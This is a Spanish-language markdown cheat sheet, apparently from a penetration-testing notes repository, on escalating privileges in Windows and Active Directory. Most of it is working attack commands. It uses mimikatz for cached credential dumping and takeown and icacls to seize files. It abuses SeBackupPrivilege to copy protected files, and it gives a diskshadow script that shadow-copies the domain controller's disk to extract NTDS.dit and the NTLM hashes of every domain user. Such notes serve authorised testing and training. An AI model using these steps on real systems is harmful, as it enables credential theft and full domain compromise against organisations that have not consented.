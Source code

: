 Podemos usar mimikatz para dumpear las contraseñas guardadas en la caché. Para llevar adelante este ataque mirar:

https://github.com/LaPorota/LaPorota_suite/blob/main/infraestructura/windows/dump_credentials_cached_mimikatz.md


### Abusar del SeTakeOwnershipPrivilege
Si tenemos este privilegio podemos tomar control de recursos que no nos pertenecen y no son accesibles por nosotros.
##### Si el permiso está pero se encuentra deshabilitado podemos usar el siguiente script

https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1

Luego elegimos el archivo sobre el que queremos tomar control y usamos el binario de windows takeown

        takeown /f 'path_to_file'
##### Hay casos en que esto no es suficiente debido a los ACL del AD. para estos casos podemos usar icacls:

        icacls 'path_to_file' /grant <our_user>:F

### Abuso de SeBackupPrivilege

Este privilegio nos permite listar y copiar el contenido de cualquier carpeta.
#### Si el permiso se encuentra pero está deshabilitado podemos usar el siguiente los siguientes scrits, invocarlos desde powershell y correr el comando siguiente
https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug


        Set-SeBackupPrivilege
#### 1)Buscamos el archivo que no podemos leer y lo copiamos
         Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Luego podremos manipular el archivo para lograr acceder a su contenido (incluido enviarlo a un linux)

#### Atacando al domain controller copiando el NTDS.dit
El SeBackupPrivilege también nos permite loguearnos al DC en un antorno de AD

Podremos crear una copia del disco del DC y robar de él el NTDS.dit (archivo donde se guardan los hash NTLM de todos los usuarios del dominio)

##### 1) llamamos al proceso diskdhadow(viene con windows)
        diskshadow.exe
##### 2)hacemos la copia
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
exit
##### 3) copiamos el NTDS.dit de la partición E: que acabamos de crear
        Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
